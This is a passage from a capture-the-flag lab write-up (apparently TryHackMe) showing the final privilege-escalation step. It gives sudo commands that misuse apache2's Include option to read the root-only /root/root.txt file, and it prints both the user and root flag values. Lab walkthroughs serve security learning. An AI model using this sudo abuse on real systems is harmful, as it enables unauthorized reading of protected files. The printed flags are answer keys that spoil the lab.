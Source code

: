 
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317165535.png)

Let's search this on GTFOBINS:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317165608.png)

We can read the root flag with this:

```
sudo /usr/sbin/apache2 -c "Include /root/root.txt" -k stop   

sudo -u root /usr/sbin/apache2 -C "DEFINE APACHE_RUN_DIR /tmp" -C "Include /root/root.txt" -k stop
```

And we get this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317170005.png)

We got our root flag, this is the short path, we can get a root shell exploiting this too, but for the simplicity of things, let's just read the root flag and end the CTF.


```
dolivaw@ubuntu-jammy:~$ cat user.txt
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```

```
root.txt: THM{2a279561f5eea907f7617df3982cee24}
```


